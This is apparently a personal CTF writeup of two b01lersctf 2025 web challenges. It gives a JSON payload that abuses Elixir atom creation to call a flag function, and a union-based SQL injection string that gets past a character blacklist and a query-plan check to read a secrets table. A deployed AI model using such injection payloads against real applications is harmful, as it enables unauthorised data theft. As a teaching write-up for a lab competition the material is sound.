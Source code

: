 ```yaml
---
title: 'some b01lersctf 2025 writeups'
description: 'some b01lersctf 2025 writeups'
date: 2025-04-20
tags: ['web', 'ctf', 'writeup']
image: './boilers.png'
authors: ['jp']
---
```


# Background Information
I participated in b01lersctf 2025 with Cosmic Bit Flips. I need to get better at web fr... (lowkey these solves were kinda meaningless lmao)

# Web

## Atom Bomb

> This new atom bomb early warning system is quite strange...

Ok, looking at the frontend we see a button that will tell us the "bomb alerts" with a bunch of random statuses.

![image](./res/atombomb.png)

Ok, so let's do a little source code analysis and try to find the bug. We find a flag function `bomb()`:

```ex
def bomb() do
    flag = case File.read("flag.txt") do
      {:ok, flag} -> flag
      {:error, _} -> "bctf{REDACTED}"
    end

    "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
  end
```

There is a weakness with the `atomizer` function:

```
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

This allows attackers to create arbitrary atoms from user input if string begins with ":". Atoms can also represent function calls, so we basically need to function call to `bomb()`

Well, when testing I ended up developing a payload that led to a very special error message.

```json
{
  "impact": ":bomb"
}
```

```
{"error":"function :bomb.bomb/0 is undefined (module :bomb is not available)"}
```

:think:. Well, the error tells that the bomb function is undefined since there is no :bomb module, we can just change the payload to the following:

```json
{
  "impact": {
    "bomb": ":Elixir.AtomBomb"
  }
}
```

So basically, what happens is that when it accesses this atom, it will do a function call to bomb, but then throw an exception because it was not expecting string. (ok ngl someone else who solved it can explain it much better lol)

```bash
'key :altitude not found in: "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}\\r\\n"\n\nIf you are using the dot syntax, such as map.field, make sure the left-hand side of the dot is a map'
```

## Defense in Depth

> Instead of making AI slop #7749 and applying to YC, making a security product might be a better play. Layers of defenses

Looking at the frontend we just see a bunch of random text, so let's dig into the source code.

So we see a mysql setup with the flag:

```sql
-- Create database and read-only user
CREATE DATABASE IF NOT EXISTS app_db;
CREATE USER IF NOT EXISTS 'b01lers'@'%' IDENTIFIED BY 'redacted';
GRANT SELECT ON app_db.* TO 'b01lers'@'%';
FLUSH PRIVILEGES;

USE app_db;

-- Create users table
CREATE TABLE IF NOT EXISTS users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL,
    email VARCHAR(255) NOT NULL UNIQUE
) ENGINE=InnoDB;

-- Create secrets table
CREATE TABLE IF NOT EXISTS secrets (
    id INT AUTO_INCREMENT PRIMARY KEY,
    `key` VARCHAR(255) NOT NULL,
    value TEXT NOT NULL
) ENGINE=InnoDB;

-- Insert sample data
INSERT IGNORE INTO users (name, email) VALUES
    ('neil', 'freshmen@purdue.eduuu'),
    ('gabe', 'boss@retirement.home'),
    ('kevin', 'frontend@kev.in');

INSERT IGNORE INTO secrets (`key`, value) VALUES
    ('junk', 'Wrong turn baby'),
    ('flag', 'bctf{tungtungtungtungtungsahua}');

-- Verify permissions
SHOW GRANTS FOR 'b01lers'@'%';
```

Ok, and we also have main python backend source code that exposes an sql injection vulnerability which is  `query = f"SELECT * from users WHERE name = '{name}'"`

```python
@app.route('/info/<path:name>', methods=['GET'])
def get_user_info(name):
    if len(name) > 100:
        return jsonify({"Message": "Why the long name? Are you Tung Tung Tung Tung Tung Tung Tung Sahua????"}), 403
    try:
        db = get_db()
        cursor = db.cursor()
    except Exception:
        print(traceback.format_exc())
        return jsonify({"Error": "Something very wrong happened, either retry or contact organizers if issue persists!"}), 500
    
    # Verify that the query is good and does not touch the secrets table
    #ok so this query stuff interacts with the sqlite 
    query = f"SELECT * from users WHERE name = '{name}'"
    for item in BLACKLIST:
        if item in query:
            return jsonify({"Message": f"Probably sus"}), 403
    try:
        explain = "EXPLAIN QUERY PLAN " + query
        cursor.execute(explain)
        result = cursor.fetchall()
        if len(result) > 7:
            return jsonify({"Message": "Probably sus"}), 403
        for item in result:
            if "secrets" in item[3]:
                return jsonify({"Message": "I see where you're going..."}), 403
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({"Message": f"Probably sus"}), 403

    # Now let the query through to the real production db
    
    cursor.close()
    # ohhh fetches the first instance?
    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()[0]
        cur.close()
        return str(records)
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({'Error': "It did not work boss!"}), 400
```

Ok, so we can see it first passes through a bunch of checks before actually being executed and the result being returned to us. The server performs these checks in sqlite3. Here are the checks:

1. If payload is > 100 chars, throw error
2. check if there is any char in blacklist: BLACKLIST = ['(', ')', '-', '#', '%', '+', ';']
3. try EXPLAIN QUERY PLAN our payload, if very complex (len(result) > 7), then throw error. If secrets in the third index of the result, throw error. Finally if the overall EXPLAIN QUERY PLAN fails, also throw error

Finally, if it passes through all these checks, it will open a mysql connection and execute our query and return the result.

Let's craft a sql query that won't throw errors on sqlite3 or mysql and passes all the checks. After some time, I crafted this:

`'OR 1=0 UNION SELECT * FROM secrets AS x WHERE x.key='flag`

Place that after /info and get yourself a nice flag.

`(2, 'flag', 'bctf{7h1s_1s_prob4bly_the_easiest_web_s0_go_s0lve_smt_3ls3_n0w!!!}')`